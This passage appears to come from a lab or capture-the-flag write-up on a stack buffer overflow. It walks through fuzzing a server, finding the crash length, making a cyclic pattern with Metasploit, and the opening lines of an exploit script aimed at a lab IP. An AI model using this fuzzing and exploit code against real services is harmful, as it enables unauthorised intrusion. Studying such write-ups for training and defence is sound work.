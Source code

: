 ```
    string += 100 * "A"
    time.sleep(1)
```

# Why fuzz?

We are sending bytes to the server in order to make it crash to see where we can start our payload.

This all works by escaping the buffer for a variable and pushing the data we want to an area we can write/execute. :wink:

# Fuzzing

In order to fuzz we'll run `python3 fuzz.py` this will return a output of bytes as shown below: 

![bytes](/assets/images/brainstorm/bytes.png)

In our case runing the fuzz.py we get the crash output of `2100`.

NOTE: By modifying the string variable and changing what "A" is multiplied we can change our starting fuzz value. And, changing the value at the bottom "A" * 100 to "A" * 1 we can make it increment by 1 instead of 100 giving us a closer value to the crash. (Due to the buffer being 2008, this app crashes consistantly at 2007 :smile:)

Now that we have the value that crashes the app, we can add 400 to the number and generate a payload with something like:  
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500 | xclip -sel c`

This payload will auto copy it to your clipboard, time to put it into the payload of our exploit. Wait.. I haven't given you the exploit yet. Here you go :skull:

# Finding the offset

```
import socket
import time

ip = "192.168.3.129"
port = 9999

prefix = ""
offset = 0
overflow = "A" * offset
retn = "BBBB"
# retn = "\xDF\x14\x50\x62"
# padding = "\x90" * 16
```